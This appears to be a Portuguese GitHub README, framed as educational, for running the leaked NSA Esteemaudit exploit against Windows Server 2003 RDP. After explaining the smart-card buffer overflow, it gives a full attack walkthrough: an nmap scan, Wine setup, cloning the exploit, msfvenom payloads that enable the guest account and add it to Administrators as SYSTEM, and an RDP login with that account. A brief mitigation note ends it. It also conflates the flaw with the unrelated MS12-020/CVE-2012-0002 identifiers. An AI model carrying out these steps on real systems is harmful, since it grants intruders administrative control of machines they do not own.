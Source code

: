 # Esteemaudit (without Metasploit) - A Windows 2003 RDP Zero Day Exploit

Explorando Remote Desktop do Windows Server 2003 com o exploit Esteemaudit (sem Metasploit) e obtendo RCE (Remote Code Execution).

**REPOSITÓRIO CRIADO PARA FINS DIDÁTICOS!**

Esta é uma portabilidade do Esteemaudit RDP Exploit vazado do Equationgroup (NSA). A vulnerabilidade explorada por este ataque está relacionada à autenticação de Smart Card, usada ao fazer logon no sistema por meio do serviço RDP. Os sistemas afetados são Windows Server 2003 SP1, SP2 e Windows XP SP0, SP1, SP3.

O logon do Smart Card é suportado por todas as versões do Windows após o Windows 2000. Ele contém um chip que armazena as informações de logon do usuário, juntamente com a chave privada e a chave de certificado pública. Ao inseri-lo em um leitor de cartão inteligente conectado ao computador e digitar um número de identificação pessoal (PIN), o usuário pode fazer login com segurança no sistema Windows. Quando o logon ocorre por meio do serviço RDP, a máquina remota que executa o serviço RDP se comunica com o computador local, que se conecta ao leitor de cartão inteligente, solicita as informações no cartão inteligente e verifica o PIN.

Esta vulnerabilidade está localizada na função "MyCPAcquireContext()" em "gpkcsp.dll", que é chamada por "winlogon.exe" na nova sessão do Windows. A função "MyCPAcquireContext()" é usada para configurar o contexto do Windows Cryptographic Service Providers (CSP). Ele lê os dados do Smart Card e define o valor dos campos da estrutura de contexto CSP. Se os dados lidos do cartão inteligente forem muito grandes, o buffer de campo usado pela estrutura de contexto CSP estoura e sobrescreve outro campo, permitindo a execução de código arbitrário.

**Para realizar o teste foi utilizado o Kali Linux 2022.3 como máquina atacante e Windows Server 2003 (x86) como máquina alvo.**

Identifique as possíveis vulnerabilidades no Remote Desktop do Windows Server:
```
nmap -v --script vuln -p3389 -Pn 172.16.1.110
```
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
```

**Sabendo que é vulnerável, vamos preparar o Kali para realizar a exploração.**

No Kali, instale as dependências:
```
dpkg --add-architecture i386
apt-get update && apt-get install wine32
```

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks
```
apt-get install libwine wine wine32 winetricks
```

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
Microsoft Windows 6.1.7601 (4.0.2)

Z:\>exit
```

Baixe o exploit e copie os arquivos:
```
git clone https://github.com/caique-garbim/MS12-020_Esteemaudit
cd Esteemaudit-without-Metasploit/
cp -r esteemaudit/ /usr/share/
cd /usr/share/esteemaudit
```

No arquivo **Esteemaudit-2.1.0.xml**, na linha nº 5 é necessário informar o IP do Windows Server e a porta TCP do serviço RDP (3389 é o padrão):

![image](https://user-images.githubusercontent.com/76706456/186801171-388f3d39-a25c-412b-b868-d70aa20815ba.png)

**Vamos gerar os payloads com os comandos que desejamos executar no Windows Server:**

Neste exemplo, iremos habilitar o usuário convidado, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net user guest /active:yes" -f dll > /root/.wine/drive_c/shell.dll
```
*(Sabendo que o comando será executado como NT AUTHORITY\SYSTEM podemos realizar tarefas administrativas)*

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Em seguida vamos adiciona-lo ao grupo de Administradores, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD='net localgroup "Administrators" guest /add' -f dll > /root/.wine/drive_c/shell.dll
```

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Por fim, vamos nos conectar ao RDP utilizando o usuário guest:
```
rdesktop 172.16.1.110 -u guest -p ''
```

![image](https://user-images.githubusercontent.com/76706456/186801609-9c57de87-1d2c-42b5-9a74-c7e44c0d178f.png)

# Como mitigar

1 - Execute gpedit.msc

2 - Vá em Computer Configuration\Administrative Templates\Windows Components\Terminal Services\Client/Server data redirection\

3 - Habilite "Do not allow Smart Card device redirection"

4 - Reinicie o servidor

# Referências

https://github.com/BlackMathIT/Esteemaudit-Metasploit

https://www.fortinet.com/blog/threat-research/deep-analysis-of-esteemaudit

#
Tags: CVE-2012-0002, MS12-020, Remote Desktop, Remote Code Execution, Vulnerability, RCE, RDP, Exploit, Exploit RDP, Windows, Server, 2003, Exploit RDP Windows Server 2003, Esteemaudit, Esteemaudit sem metasploit, without metasploit, Exploração do Windows Server 2003 com Esteemaudit sem metasploit

